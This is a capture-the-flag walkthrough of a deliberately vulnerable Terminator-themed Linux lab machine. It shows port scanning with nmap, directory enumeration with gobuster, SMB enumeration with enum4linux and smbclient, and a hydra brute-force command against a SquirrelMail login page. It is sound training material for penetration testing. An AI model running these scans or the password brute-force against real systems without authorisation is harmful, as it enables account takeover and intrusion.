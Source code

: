 #Linux #  # 

skynet: A vulnerable Terminator themed Linux machine


NMAP Scan

```sh
  nmap -sV -sC -p- 10.10.14.219
  ```
* To see the versions of the services running (-sV)
* To perform a script scan using the default set of scripts (-sC)
* To scan all ports from 1 through 65535 (-p-)

OPEN PORTS

* 22/tcp  open  ssh
* 80/tcp  open  http
* 110/tcp open  pop3
* 139/tcp open  netbios-ssn
* 143/tcp open  imap
* 445/tcp open  microsoft-ds (SMB)

We start with Port 80/tcp. The HTML code does not shown anything interesting, the buttons do not work.  

![image](https://user-images.githubusercontent.com/99097743/170730299-698d3ae3-81c2-48dc-89db-eca62bddbfa1.png)

![image](https://user-images.githubusercontent.com/99097743/170730467-87b64da3-0597-40fd-8b33-55fa10cc4027.png)

Let's move on the 'hidden" directories, Gobuster can help us locate them:

```sh
gobuster dir -u=http://10.10.14.219 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![image](https://user-images.githubusercontent.com/99097743/170731438-021c0087-aea6-46a2-8c6a-3cb0c93ba632.png)

This analysis takes a while. The following directories were listed in the first few minutes:

* /admin (Status 301)
* /css (Status 301)
* /js (Status 301)
* /config (Status 301)
* /ai (Satus 301)
* /squirrelmail (Status 301) -- Check this out!

![image](https://user-images.githubusercontent.com/99097743/170733365-d1597c75-3cac-4cb0-a7b8-0e3402861fd6.png)

It seems that there is no vulnerability documented for **SquirrelMail version 1.4.23**

![image](https://user-images.githubusercontent.com/99097743/170743722-89617c7d-6878-4ec2-b530-1676178865ba.png)

OK, Let's switch to the Port 445/tcp SMB server. We can try the **enum4linux** for enumerating information.


```sh
  enum4linux -a 10.10.14.219
  ```
* To do all simple enumerations(-a)

There are interesting outcomes such as the known usernames:

![image](https://user-images.githubusercontent.com/99097743/170734669-57ec1e84-403f-4464-a5a9-6c62c66ebe0b.png)


Here are the sharenames:

![image](https://user-images.githubusercontent.com/99097743/170734874-50cb0cc9-7a02-484e-a69e-1e9aa92a5772.png)


We can use the **smbclient** to enter the anonymous share. Here are the commonly used commands for smbclient


```sh
  smbclient '\\10.10.48.162\anonymous'
  ```
  
 We captures a number of logs files, one of which includes a password list potentiall for **milesdyson**. Let's use **hydra** for brute-forcing the email account 
 
 ```sh
 hydra -l milesdyson -P log1.txt 10.10.48.162 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=incorrect" -V -F -u
```
